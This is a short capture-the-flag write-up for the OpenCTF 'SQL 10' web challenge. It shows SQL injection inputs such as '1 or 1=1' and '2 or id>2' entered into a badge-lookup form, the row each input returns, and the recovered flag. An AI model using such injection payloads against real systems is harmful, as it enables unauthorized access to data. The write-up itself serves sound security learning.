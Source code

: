 ```yaml
---
title: "OpenCTF SQL 10"
date: Sun, 12 Aug 2018 09:37:59 +0000
draft: false
type: posts
---
```

# OpenCTF SQL 10

<br/>

<br/>
**Category:** Web

**Points:** 10

**Description:**

```
https://sql-mayham.openctf.com/ziopxuoiwquyerhnszpasdyvzlkxcjlwerqwer/sql-10/
```

When `1` is entered it returns the following row:

```
Enter a badge number to view that officers file:1
(1, 'bob', 'simmons', 'none')
```

Performing a basic sql injection we got the same row back but no error. The server only returns 1 row

```
Enter a badge number to view that officers file:1 or 1=1
(1, 'bob', 'simmons', 'none')
```

Entering an ID of 2 no results are found.

```
Enter a badge number to view that officers file:2 
None
```

Using the sql injection an OR was added to say “id>2”

```
Enter a badge number to view that officers file:2 or id>2
(152135123451, 'flag', 'flag', 'Th@tW@53@5yHuh')
```

This returns the flag in the one other row in the database

Flag
====

**Th@tW@53@5yHuh**

#### [Source](http://b0tchsec.com/2018/openctf/sql10)

<br/>
---
